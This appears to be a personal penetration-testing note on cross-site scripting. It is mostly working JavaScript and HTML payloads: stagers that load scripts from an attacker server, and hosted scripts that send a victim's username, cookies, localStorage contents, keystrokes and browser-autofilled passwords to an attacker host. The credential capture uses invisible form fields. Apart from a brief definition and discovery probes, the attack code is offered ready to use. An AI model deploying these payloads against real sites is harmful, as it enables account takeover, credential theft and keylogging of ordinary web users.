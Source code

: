 
>[!info]
>This note is still in development.

## Overview
---
**Cross-site scripting (XSS)** is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users.

- **Reference(s):**
	- [PayloadsAllTheThings: XSS Injection](https://swisskyrepo.github.io/PayloadsAllTheThings/XSS%20Injection/)

## Payloads
---
### Stagers
---

**Attacker Server-Side:**
```shell
# Hosting a Simple HTTP Server
python -m http.server 80

# or Custom PMA Server
python ./pma_server.py
```

**Victim Payload:**

```html
// Standard
<script src="http://<ip_addr>/<xss_payload>.js"></script>
<img src="http://<ip_addr>/<xss_payload>.js"/>

// URL Encoded
%3Cscript%20src=%22http://<ip_addr>/<xss_payload>.js%22%3E

// Extended
<html><body><script src="http://<ip_addr>/<xss_payload>.js"></script></body></html>

// URL Encoded
%3Chtml%3E%3Cbody%3E%3Cscript%20src=%22http://<ip_addr>/<xss_payload>.js%22%3E%3C/script%3E%3C/body%3E%3C/html%3E
```

### Username Extraction
---

**Hosted Payload:**
- ``xss_username.js``

```js
var ClientAPI = "https://<ip_addr>:<port>/api/me"
var AttackerURL = "http://<ip_addr>:<port>"
fetch(ClientAPI, {
		method:'GET',
		mode:'cors',
		credentials:'include'
	})
	.then(response => response.json())
	.then((data) => {
		fetch([AttackerURL, "/username?=", data.username].join(''), {
		  mode: 'no-cors'
		});
	});
```

**Output:**
![[Pasted image 20231015202903.png]]

### Cookie Extraction - Non-HttpOnly attribute (document.cookie)
---

- ``document.cookie`` = deprecated browser cookie storage that is becoming less common due to the HttpOnly flag.

**Hosted Payload:**
- ``xss_document_cookie.js``

```js
var AttackerURL = "http://<ip_addr>:<port>"
var DocumentCookie = encodeURIComponent(document.cookie)
fetch([AttackerURL, "/docCookie?=", DocumentCookie].join(''), {
	mode: 'no-cors'
});
```

**Output:**
- TBD

### Cookie Extraction - Local Secrets (localStorage/sessionStorage)
---

- ``localStorage`` = will keep the data until explicitly deleted.
- ``sessionStorage`` = will keep the data until the tab is closed.

**Hosted Payload:**
- ``xss_local_cookie.js``

```js
var AttackerURL = "http://<ip_addr>:<port>"
var LocalSecretsCookie = encodeURIComponent(JSON.stringify(localStorage))
fetch([AttackerURL, "/localCookie?=", LocalSecretsCookie].join(''), {
	mode: 'no-cors'
});
```

**Output:**
![[Pasted image 20231015202927.png]]

### Keylogger
---

**Hosted Payload:**
- ``xss_keylogger.js``

```js
var AttackerURL = "http://<ip_addr>:<port>"
function logKey(event){
	fetch([AttackerURL, "/key?=", event.key].join(''))
}
document.addEventListener('keydown', logKey)
```

**Output:**
![[Pasted image 20231015203009.png]]

### Saved Password Extraction
---

**Hosted Payload:**
- ``xss_credentials.js``

```js
var AttackerURL = "http://192.168.49.63"
let body = document.getElementsByTagName("body")[0]
// Username
var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
u.style.opacity = "0";
// Password
var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
p.style.opacity = "0";
// Extract
body.append(u)
body.append(p)
setTimeout(function(){
	fetch([AttackerURL, "/user?=", u.value, "&pass?=", p.value].join(''))
}, 5000);
```

**Output:**
- TBD

### Discovery
---

Validate Javascript XSS
```html
<script>alert('Whoops!')</script>

<script>src="http://192.168.49.63"</script>

# If bold, site is vulnerable to XSS
<h1>Hello World</h1>
```
